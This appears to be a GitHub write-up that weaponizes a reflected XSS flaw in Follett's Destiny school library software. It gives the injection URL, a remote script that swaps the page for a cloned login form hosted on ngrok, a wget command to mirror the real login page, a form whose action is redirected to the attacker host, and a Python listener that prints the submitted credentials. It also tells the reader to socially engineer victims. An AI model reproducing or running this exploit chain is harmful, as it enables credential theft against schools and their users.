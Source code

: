 ﻿## Reflected XSS Injection

The Destiny application by Follet Learning Solutions has a reflected XSS Injection in versions > 20_0_4_AU4. Today, I will provide the weaponization process of the Reflected XSS Injection to showcase how to abuse it.

Firstly, make sure your school ID has been set to the school that contains the search functions. It is in your cookie. You will need to socially engineer your victim to click on the proper school first. Additionally, you will also have to get them to click on some sort of functionality of the search forms as well (Such as the title button). You can more than likely trigger both of these with CSRF.

Reflected XSS - VERSION > 20_0_4_AU4
```html
https://victim.org/cataloging/servlet/presentonesearchresultsform.do?searchString=+%3C/li%3E%3Cscript%3Ealert(1)%3C/script%3E&mode=0
```

Now you will need to host your remote JS file. In this case, I will be replicating the login form so it displays that instead of the contents on the page.

```javascript
document.addEventListener("DOMContentLoaded", function() {
//hide first body - stops browser from flashing
const body = document.body;
body.style.display = 'none';  

// this was super hacky work around as multiple IDs shouldn't exist.
function hideFirstElementWithId(id) {
    var elements = document.querySelectorAll(`#${id}`);
    if (elements.length = 0) {
        elements[0].style.display = 'none';
    }
}


var request = new XMLHttpRequest();

// Open a new connection, using the GET request on the URL endpoint
request.open('GET', 'https://xxxxxx.ngrok.app/login.html', true);

request.onload = function() {
  var data = this.response;
  var div = document.createElement('div');
  div.innerHTML = data;
  body.appendChild(div);
  body.style.display = 'block';
  hideFirstElementWithId('masterHeaderTable');
  hideFirstElementWithId('masterTable');
}

// Send request
request.send();
});
```

Login html will be the login form, let's go ahead and replicate it.

```javascript
wget --mirror            \
     --no-cookies        \
     --header  "Cookie: siteIDCookie=0; JSESSIONID=XXXX.destiny"     \
     --convert-links     \
     --wait=2            \
     -o log              \
     https://victim.com/common/servlet/presentloginform.do
```

Now that we have the presentloginform.do. Rename it to login.html and then change the HTML login form and point it to our ngrok instance.

```angular2html
<form name="common_servlet_LoginForm" method="post" action="https://XXXXX.ngrok.app/login.html/fetch.html" onsubmit="return submitInterceptor_0();">
```

Please make sure the above has the correct Interceptor ID at the end. It will be on the page.

Now we will want to serve the files.

```angular2html
ngrok http 9999
```

```python
#!/usr/bin/env python3
from http.server import HTTPServer, SimpleHTTPRequestHandler, test
import sys

class CORSRequestHandler (SimpleHTTPRequestHandler):
    def end_headers (self):
        self.send_header('Access-Control-Allow-Origin', '*')
        SimpleHTTPRequestHandler.end_headers(self)
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length).decode('utf-8')
        # Log the post_data or perform any other desired actions
        print("Received POST data:", post_data)
        self.send_response(200)
        self.send_header('Content-type','text/html')
        self.end_headers()

if __name__ == '__main__':
    test(CORSRequestHandler, HTTPServer, port=int(sys.argv[1]) if len(sys.argv) > 1 else 9999)
```

Start the custom python listener as provided.

``` 
https://victim.org/cataloging/servlet/presentonesearchresultsform.do?searchString=+%3C/li%3E%3Cscript src="https://xxxxx.ngrok.app/xss.js"%3C/script%3E&mode=0
```

Provided the victim has the proper school ID in their cookie, a login form will be presented instead of the intended page.

